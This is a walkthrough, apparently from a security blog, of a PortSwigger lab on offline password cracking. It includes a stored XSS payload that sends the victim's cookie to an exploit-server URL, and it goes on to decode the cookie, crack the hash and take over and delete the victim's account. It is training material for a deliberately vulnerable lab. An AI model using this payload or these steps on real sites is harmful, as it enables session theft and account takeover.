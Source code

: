 ```yaml
---
title: Portswigger writeup - Offline Password Cracking
categories: [writeup,walkthrough,security]
tags: [writeup,walkthrough,portswigger,burp,login,security,password,offline]
---
```


<a href="https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking" target="_blank">This lab</a> is in the same series than the previous article. The goal here to steal Carlos's "stay-logged-in" cookie to steal and delete his account. 

# **Lab: Offline password cracking**

1. Click “My account button”
    
    ![offline-password-cracking-1.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-1.png)
    
2. Enter Wiener’s credentials, click “stay-logged-in” option and click “Log in”
    
    ![offline-password-cracking- (2).png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-2.png)
    
3. In Proxy > HTTP History, click the the GET reset “/my-account” and click on the arrow on the “stay-logged-in” cookie
    
    ![offline-password-cracking-3.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-3.png)
    
4. The base64 string is decoded: `username:password`O 
    
    ![offline-password-cracking-4.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-4.png)
    
5. Click “Home”
    
    ![offline-password-cracking-5.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-5.png)
    
6. Click a “View post” button
    
    ![offline-password-cracking-6.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-6.png)
    
7. In another tab, open the Exploit Server
    
    ![offline-password-cracking-7.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-7.png)
    
8. Copy its URL
    
    ![offline-password-cracking-8.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-8.png)
    
9. On the post opened at step 6, bottom page, add the following payload (change the URL for your exploit server), as well as random name, email address and website URL. Then click “Post comment”: `<script>document.location='https://exploit-server-url.com'+document.cookie</script>`
    
    ![offline-password-cracking-9.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-9.png)
    
10. Click “Back to blog”
    
    ![offline-password-cracking-10.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-10.png)
    
11. The blog post will be redirected to a similar page (here on Firefox)
    
    ![offline-password-cracking-11).png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-11.png)
    
12. Go back the the exploit server and click “Access log”
    
    ![offline-password-cracking-12.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-12.png)
    
13. A GET reset “/exploitserver” appears in the list, containing a “stay-logged-in” cookie, copy its string
    
    ![offline-password-cracking-13.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-13.png)
    
14. Go to [base64decode.org](http://base64decode.org), paste the string previously copied to decode it and copy the hashed password, after “`carlos:`”
    
    ![offline-password-cracking-14.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-14.png)
    
15. Go to [crackstation.net](http://crackstation.net) and paste the hash to get Carlos’s password
    
    ![offline-password-cracking-15.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-15.png)
    
16. Go back to the lab’s tab and click multiple times on the “Go back” button until you can see the website without being redirected
    
    ![offline-password-cracking-16.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-16.png)
    
17. If needed, click “My account”, according to the point you have reached using the “Go back” button, and click “Log out”
    
    ![offline-password-cracking-17.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-17.png)
    
18. Click “My account” again
    
    ![offline-password-cracking-18.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-18.png)
    
19. Enter “carlos” as a username and the password previously found at step 16 on Crackstation, “onceuponatime”, and click “Log in”
    
    ![offline-password-cracking-19.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-19.png)
    
20. When you are on Carlos’s “My account” page, click “Delete account”
    
    ![offline-password-cracking-20.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-20.png)
    
21. Paste one more time his password as a confirmation and click “Delete account!”
    
    ![offline-password-cracking-21.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-21.png)
    
22. The lab is solved
    
    ![offline-password-cracking-22.png](/assets/images/2022-11-30-Password-reset-poisoning-via-middleware/2022-11-26-offline-password-cracking/offline-password-cracking-22.png)